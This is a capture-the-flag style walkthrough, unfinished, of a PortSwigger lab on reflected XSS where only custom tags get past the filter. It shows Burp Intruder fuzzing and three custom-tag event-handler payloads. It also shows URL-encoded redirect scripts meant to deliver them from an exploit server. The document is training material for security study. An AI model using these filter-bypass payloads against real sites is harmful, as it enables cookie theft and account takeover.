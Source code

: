 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Step 1 Test search funtion for XSS

I find that if I search using html tags, that my output is reflected on the page:
![image](https://user-images.githubusercontent.com/83407557/211054613-0d8c6fb7-ac46-48b7-9c3e-3817e7b66c9a.png)
![image](https://user-images.githubusercontent.com/83407557/211054670-78a3702c-01c8-4baa-a846-43d1ee9f5020.png)

However any attempt to add known tags throws an error:

![image](https://user-images.githubusercontent.com/83407557/211054822-fc162e24-2602-471e-b34b-47ca803a27e7.png)
![image](https://user-images.githubusercontent.com/83407557/211054875-5b856ccd-6354-4e15-a0a2-6d971584058e.png)

# Step 2 Create an intruder attack using custom tags

I capture a test string with burp and send it to intruder:

![image](https://user-images.githubusercontent.com/83407557/211055319-7eb91c5b-a359-4ddb-9e32-405f7a839d6c.png)

I add a payload position on the string "test"

![image](https://user-images.githubusercontent.com/83407557/211055535-ee5d4dec-00fc-4fc8-b111-1c6de3dcfbf8.png)

Using the [Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) I select custom tags with all events, and copy payloads under Event handlesrs that do not require user interaction:

![image](https://user-images.githubusercontent.com/83407557/211057224-1a66daa8-4264-40b3-844d-b11e429bac22.png)

And add the copied payloads from this list into the payloads section of my intruder attack:

![image](https://user-images.githubusercontent.com/83407557/211057684-703cd62f-0c76-4fba-b534-0ea10fba33c3.png)

I find that three of the payloads returned 200 ok response codes:

![image](https://user-images.githubusercontent.com/83407557/211057929-cd2eb43e-02f5-441e-8a0b-7df76f5c048c.png)

```html
<xss id=x tabindex=1 onfocus=alert(1)></xss>

<xss id=x tabindex=1 onfocusin=alert(1)></xss>

<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>
```

# Step 3 URL encode each payload 

I need to add a #x to the payloads to get them to focus on that element with the page is loaded, I will take each on and add it into the searchbar to do the encoding:


```html
<script>
  location = 'https://0af6001904e737f8c0f96d79008d007e.web-security-academy.net/?search=%3Cxss+id%3Dx+tabindex%3D1+onfocus%3Dalert%281%29%3E%23x%3C%2Fxss%3E';
</script>
```

```html
<script>
  location = 'https://0af6001904e737f8c0f96d79008d007e.web-security-academy.net//?search=%3Cxss+id%3Dx+tabindex%3D1+onfocusin%3Dalert%281%29%3E%23x%3C%2Fxss%3E';
</script>
```

```html
<script>
  location = '/?search=%3Cxss+id%3Dx+style%3D%22transition%3Aoutline+1s%22+ontransitionend%3Dalert%281%29+tabindex%3D1%3E%3C%2Fxss%3E';
</script>
```

# Step 4 add payloads to attack server

I am going to try each payload in-turn on myself using the attack server:

![image](https://user-images.githubusercontent.com/83407557/211062177-07568575-4baf-4ce1-99ab-3b90fc824302.png)


Took a break, payloads work if you click on the example links of cheatsheet
